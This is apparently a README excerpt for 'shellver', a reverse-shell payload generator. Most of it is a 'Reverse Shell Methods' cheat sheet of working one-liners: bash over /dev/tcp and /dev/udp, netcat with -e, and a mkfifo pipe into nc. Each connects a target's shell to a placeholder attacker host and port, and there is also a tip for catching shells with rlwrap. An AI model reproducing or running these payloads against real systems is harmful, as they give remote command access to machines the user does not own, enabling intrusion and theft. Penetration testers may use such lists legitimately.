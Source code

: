 <img src="https://github.com/jonasw234/shellver/blob/master/ss/msfpc.png" >

(asks for `sudo` password because euid is not 0 and port is < 1024)

From https://github.com/swisskyrepo

When you know that you’re spawning a reverse shell from a Windows system, I suggest invoking shellver with [rlwrap](https://linux.die.net/man/1/rlwrap) for readline mappings, i.e.
```
rlwrap ./shellver.py shell
```

# Reverse Shell Methods
```
╔BASH TCP═══════════════════════════════════════════
║ bash -i >& /dev/tcp/xxx/yyy 0>&1
╠═══════════════════════════════════════════════════
║ 0<&196;exec 196<>/dev/tcp/xxx/yyy; sh <&196 >&196 2>&196
╚═══════════════════════════════════════════════════
╔BASH UDP═════════════╦═════════════════════════════
║ Run Target Machine  ║ sh -i >& /dev/udp/xxx/yyy 0>&1
╚═════════════════════╩═════════════════════════════

╔Netcat Traditional═════════════════════════════════
║ nc -e /bin/sh xxx yyy
╚═══════════════════════════════════════════════════
╔Netcat OpenBSD═════════════════════════════════════
║ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc xxx yyy >/tmp/f
```